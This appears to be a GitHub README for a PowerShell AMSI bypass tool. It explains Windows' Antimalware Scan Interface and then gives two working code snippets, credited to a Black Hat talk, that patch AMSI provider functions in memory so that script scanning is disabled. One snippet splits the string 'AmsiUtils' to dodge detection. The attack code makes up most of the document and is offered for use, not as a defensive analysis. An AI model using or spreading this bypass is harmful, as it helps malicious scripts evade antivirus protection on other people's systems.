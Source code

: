 # bypass-amsi-powershell


AMSI stands for "Antimalware Scan Interface." It is a Microsoft Windows interface that allows antivirus and other security software to scan scripts and other types of content in memory, before they are executed. This allows the security software to detect and prevent the execution of malicious scripts, such as those used by malware or other types of cyber threats. AMSI was introduced in Windows 10 and is also supported in Windows Server 2016 and later versions. This script essentially breaks the AMSI protection by breaking one of the components in the AMSI chain.

This script can run on any of [these](./static/VERSIONS.md) versions of Windows.

### Usage
---

This script works by breaking the chain in the amsi.dll. This exact script breaks the


AMSI Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf


 

### 1st Method by Maor Korkos
---

```powershell
Add-Type $APIs
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,
"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

### 2nd Method by Maor Korkos
---

```powershell
[DllImport("amsi")]
public static extern int AmsiInitialize(string appName, out IntPtr context);
$SIZE_OF_PTR = 4; $NUM_OF_PROVIDERS = 2; $ctx = 0; $p = 0
$ret_zero = [byte[]] (0xb8, 0x0, 0x00, 0x00, 0x00, 0xC3)
[APIs]::AmsiInitialize("MyAmsiScanner", [ref]$ctx)
for ($i = 0; $i -lt $NUM_OF_PROVIDERS; $i++)
{
$CAmsiAntimalware = [System.Runtime.InteropServices.Marshal]::ReadInt32($ctx+8)
$AntimalwareProvider = [System.Runtime.InteropServices.Marshal]::ReadInt32($CAmsiAntimalware+36
+($i*$SIZE_OF_PTR))
$AntimalwareProviderVtbl = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProvider)
$AmsiProviderScanFunc = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProviderVtbl+12)
[APIs]::VirtualProtect($AmsiProviderScanFunc, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($ret_zero, 0, $AmsiProviderScanFunc, 6)
}
```
